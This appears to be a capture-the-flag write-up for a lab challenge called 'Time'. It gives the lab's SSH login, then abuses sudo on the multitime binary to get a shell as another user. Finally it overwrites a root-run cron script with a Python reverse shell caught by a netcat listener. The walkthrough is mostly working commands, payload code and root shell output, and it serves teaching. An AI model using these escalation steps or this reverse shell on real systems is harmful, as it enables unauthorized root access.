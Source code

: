 # Name: Web: Privilege Escalation: Time

## Vulnerability

Cron job are programs or scripts that are scheduled to run automatically at specific times or intervals by script or command.
The system-wide crontab is located at /etc/crontab.

One of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

## Exploit

Connect with ssh to user ```time:EDBVCjNFAAzYedCX```, port 2022.

### First escalation

Let's check our sudo permission on the target system:

```linux
time@time:~$ sudo -l
Matching Defaults entries for time on time:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User time may run the following commands on time:
    (wormhole) /usr/bin/multitime
```

We can see that user ```time``` can run the ```multitime``` util as wormhole user.
It can be used to break out from restricted environments by spawning an interactive system shell if the binary is allowed to run as superuser by sudo.

```sudo multitime /bin/sh```

We can run the multitime binary as wormhole user:

```sudo -u wormhole /bin/multitime /bin/sh```

And now we escalated to ```wormhole``` user!

### Second escalation

Reading the ```/etc/crontab``` file we can see that the ```root``` user is running a python script which is located inside the ```wormhole``` home directory.

```bash
cat /etc/crontab

* * * * * root /usr/bin/python /home/wormhole/time-travel.py
```

This line of the crontab file translates that in every minute, the root user is running that ```time-travel.py``` script.

Checking for file permissions of that script, we can spot that the ```wormhole``` user has writing permission.

```bash
ls -la /home/womrhole/time-travel.py
-rwxr-xrwx 1 root root 242 Jul 24 15:20 /home/wormhole/time-travel.py
```

This means that we can overwrite the content of this file: we will try to use a reverse shell in python:

Modify the content of the ```/home/wormhole/time-travel.py``` file:

```python
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import socket, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 6969))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.system("/bin/sh -i")
```

Now, open a netcat connection on port ```6969```:

```bash
nc -nvlp 6969
```

Wait for 1 minute and we are root:

```bash
Listening on 0.0.0.0 6969
Connection received on 127.0.0.1 38646
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```